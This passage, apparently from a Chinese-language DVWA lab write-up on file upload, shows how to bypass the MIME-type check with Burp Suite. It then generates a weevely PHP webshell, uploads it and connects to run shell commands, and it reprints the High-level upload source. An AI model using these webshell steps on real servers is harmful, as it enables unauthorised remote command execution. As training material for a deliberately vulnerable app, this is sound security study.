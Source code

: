 #### 解题思路
上传文件的时候Burpsuite拦截，修改MIME类型为image/jpeg或image/png即可，即修改HTTP头的第二个Content-Type为image/jpeg或image/png。

weevely 生成webshell。
kali Linux终端输入：

```
weevely generate pass 1.php		# 在当前路径下生成1.php文件，密码是pass

然后到DVWA上传1.php文件，再到终端输入：
weevely "http://ip地址/dvwa/hackable/uploads/1.php" pass
连接后输入：
system_info		# 可以查看系统信息
shell_sh [cmd]	# cmd是shell命令，如dir
...
```



## 0x03 High

#### 源码分析
```php
<?php
if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
    $uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];

    // Is it an image?
    if( ( strtolower( $uploaded_ext ) == "jpg" || strtolower( $uploaded_ext ) == "jpeg" || strtolower( $uploaded_ext ) == "png" ) &&
        ( $uploaded_size < 100000 ) &&
        getimagesize( $uploaded_tmp ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $uploaded_tmp, $target_path ) ) {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            echo "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}
?> 
```
strrpos(string,find,start)函数返回字符串find在另一字符串string中最后一次出现的位置，如果没有找到字符串则返回false，可选参数start规定开始搜索的位置。
